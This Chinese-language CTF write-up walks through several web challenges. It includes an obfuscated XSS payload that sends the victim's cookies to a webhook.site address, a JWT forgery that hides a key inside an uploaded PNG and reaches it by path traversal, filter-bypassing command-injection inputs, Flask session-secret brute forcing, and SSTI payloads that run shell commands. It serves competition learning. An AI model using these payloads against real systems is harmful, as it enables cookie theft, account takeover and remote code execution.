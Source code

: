 
# web
### b01ler-ad
post `/review`接口,会有一个浏览器来访问http://localhost:3000/admin/view?content?=${content}
,发送一个html文档,

过滤了' " \` 使用String.fromCharCode绕过
 应该是xss读cookie,就是直接发个html,fetch,注意加个no-cors,不然无法跨域

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>
<script>
eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,97,50,48,99,57,102,57,100,45,98,53,48,54,45,52,97,56,97,45,57,51,100,97,45,99,101,53,52,102,100,56,55,100,48,54,97,39,44,123,109,101,116,104,111,100,58,39,80,79,83,84,39,44,109,111,100,101,58,39,110,111,45,99,111,114,115,39,44,98,111,100,121,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41))</script>

</body>
</html>
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240413232240.png)

### imagehost
flag在上传的png里,登录为admin即可
`FLAG_FILENAME="$(python3 -c 'import uuid;print(uuid.uuid4())').png"`

Route("/", home),   主页,jwt鉴权,给出当前用户所有上传的照片
Route("/login", login_get), 返回login.html,jinjia2渲染无ssti
Route("/login", login, methods=["POST"]),    传入用户名/密码,fetchone,设置jwt里userid和admin
Route("/register", register_get),             register.html
Route("/register", register, methods=["POST"]),   insert,参数化
Route("/logout", logout),                  
Route("/", upload, methods=["POST"]),        上传文件,
Route("/view/{filename}", view),   
```python
async def view(request):
	filename = request.path_params["filename"]
	
	path = UPLOAD_FOLDER.joinpath("a").with_name(filename)
	if not path.exists():
		return PlainTextResponse("Image not found", 404)
	
	return FileResponse(UPLOAD_FOLDER.joinpath("a").with_name(filename))
```

需要伪造admin用户,使用的是非对称加密,且公钥(decode)的文件位置可指定,能否通过upload上传公钥文件,,且pem还要符合png的标准

我为我的无知道歉,pem的格式是这样的
```pem
-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCT96Ir3DM+PtlpHqyI8YOBOKyAexIO5RMpwUgUndIRBs72g0Ga
Tyy8yxKbMCaJ2nLQBC9D6cOp8UzHBeirsk0rYETGQBFqHzOvjod3VjE+9eRMJGl7
oohwHUzqHUOoNDKLvz2HuoVtRHawfw4EHCx9OTNyWct7jjg9VV0EEz9IdQIDAQAB
AoGAbFR3kZ70kVTYPYLslJIlUj0Y5jO0Y91Iq2BLknR9MGQIsCgmpn/i5BHU/HND
M9gQCMWXiSQjUU9Ng8SKtPGkVsl22mNZkRb69Ca1083pI2HxwL3dhEXl+VLD37w+
Cg+9glWnsjdUFy8WoiTun0yWJHiXKN2VRCv759+vJS6M150CQQDDQt2HoKEKVsU1
RLyRpr93Idtmzplro48zsvsmuCZJyNnpn4VYz7BFvu7SDX4Xkz1dr9gELnTvnQY3
rBWNQOXzAkEAwf6jpDFa+JL9/CLLTxuwn51Or8C4zcd1LjrmsqWz8SYDnuAZo4Vg
A2MlVAYpbk1XfVWzGPxralsa9+Zrl9yp9wJATmQe2h+T57m0TNF+vx7pyWNPWTPi
hkNQ75mQmRffT0oSqmd/uosPIsEn0i7Wi5JyVZWOLQeVrMkmwN0WffIrHwJBAIM2
4Sil2YpYokJwpmOTrxvHIvntuRI23yOt42zid5ucwsYrfiwEgrTH0u/KWyuoVI0J
8mHsGhuOE+epiwzkzHECQCN3G0+GcCfE6eYF5yW19n7QoK3sxU5HbwXKoAeXgM0z
TEiGjWVM5w+Ea21IUsE2O2CIG1CePqUI2DSujYCo7Oc=
-----END RSA PRIVATE KEY-----
```
或者说view路由读取公钥文件?

实践出真知!!!,只要不破坏pem文件格式也可以解析
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414025437.png)

类似于图片马的制作,在一个图片中间把公钥加上去
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414035316.png)


照着原来的代码写一个加密,注意在linux上跑...
```python
import jwt
from pathlib import Path


payload={"user_id":1,"admin":True}

def encode(payload, public_key: Path, private_key: Path):
        key = private_key.read_bytes()
        return jwt.encode(payload=payload, key=key, algorithm="RS256", headers={"kid": str(public_key)})
print(encode(payload=payload,public_key=Path('../../../../../../uploads/2b170008-668c-4810-9b38-3815912a675b.png'),private_key=Path('/tmp/private.pem')))
```

output`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uL3VwbG9hZHMvMmIxNzAwMDgtNjY4Yy00ODEwLTliMzgtMzgxNTkxMmE2NzViLnBuZyJ9.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6dHJ1ZX0.fBuVTPsTuxKvVfpTUsi8qcDt07TqNZaORzH936DSgCT_xn5AtblipxDWKIHCbRRQyb1E2fwCQI7S9ORYNEb71PCrAHSop2akS084yIssIyVM3JGCVKpNrOvt-ta6Ua3TemAcpuI3Jx8jE_HTIot0rdBahS_DVXuZ8-NHn2YqIOo`

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414034815.png)



### 3-city-elves-writeups
命令注入,过滤了很多关键字

通过变量替换,先得到echo,使用base32 读取flag.png然后写入到静态文件style.css里
本地可以,远程不行
```json
{"content":"1\"';b=`b=ch;e${b}o 'F4FA====' |base32 -d`;a=ch;e${a}o 'aaaa'>> as*${b}sty* ;'\""}
```

```json
//变量b为/,然后base32读取根目录flag.png
{"content":"1\"';b=`b=ch;e${b}o 'F4FA====' |base32 -d`;base32 ${b}proc${b}self${b}cmdline >> as*${b}sty* ;'\""}
```
sh不支持多级目录通配符...

```json
{"content":"1\"';e=se;b=`b=ch;e${b}o 'F4FA====' |base32 -d`;base32 ${b}flag.png > as${e}ts${b}style ;'\""}
```

然后访问&下载/static/style 
`base32 -d style >flag.png`

![flag.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414174123.png)



`bctf{Lucky_you_I_did_not_code_this_stuff_in_Ruby_lasudkjklhdsfkhjkae}`

### pwnhub
#ssti
可以上传笔记内容,存在ssti
```python
@app.get('/view/<id>')
@login_required
def view(id):
    if (users[current_user.name].verification != V.admin):
        return render_template_string('This feature is still in development, please come back later.')
    content = next((post for post in current_user.posts if id in post), None)
    if not content:
        return render_template_string('Post not found')
    content = content.get(id, '')
    if any(char in content for char in INVALID):
        return render_template_string(f'1{"".join("33" for _ in range(len(content)))}7 detected')
    return render_template_string(f"Post contents here: {content[:250]}")
```
但是需要先是admin
```python
users = {
    "admin": User("admin", ''.join(choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(32)), V.admin),
    "pwnlyfans": User("pwnlyfans", ''.join(choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(32)), V.user)
}
```
看到secrets为`app.secret_key = hex(getrandbits(20))`,爆破

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414212946.png)

`0xbbe18`

`flask-unsign -s --secret "0xbbe18" --cookie "{'_fresh': False, '_id': '09120b7e8cf2ee71c6a5c874479193608d3eba9822f44d9341f44a6076456bd081bb8ad8719f74f2fb9deb2e7b8ac8c6b4b39cd30a83c082b852a0b96a4820ab', '_user_id': 'admin'}" --no-literal-eval`

得到admin的session
```
.eJwlzjEOwjAMQNG7ZGZwHDe2e5nKjh1RCRhaMSHuTiWmL_3pfco2jzzvZZ32OPNWtj3KWkArgnPKmJjJdXRbhjARa9XWQaKlmwriJAptVK9aB-60dA-Q6i4WwlUn08TpGumYfN0hozt50xENTNoAQZcFDVy7kSCYlwvyPvP4ayye-6t8f4VbMTY.ZhvbZQ.-GnCt5UVviTjN6PrEodMeBbKO3I
```

需要绕过ssti的长度限制
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414214310.png)

不需要绕,是先append然后根据len来显示错误消息,可以自己计算post_id
黑名单`INVALID = ["{{", "}}", ".", "_", "[", "]","\\", "x"]`


`{% print(lipsum.__globals__.__builtins__['__import__']('os').popen('ls').read()) %}`



```bash
{%print(lipsum|attr('%c%c%c%c%c%c%c%c%c%c%c'|format(95,95,103,108,111,98,97,108,115,95,95,))|attr('%c%c%c%c%c%c%c%c%c%c%c%c'|format(95,95,98,117,105,108,116,105,110,115,95,95,))|attr('%c%c%c%c%c%c%c%c%c%c'|format(95,95,105,109,112,111,114,116,95,95,))('os')|attr('popen')('ls')|attr('read')())%}
```

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-13   22:21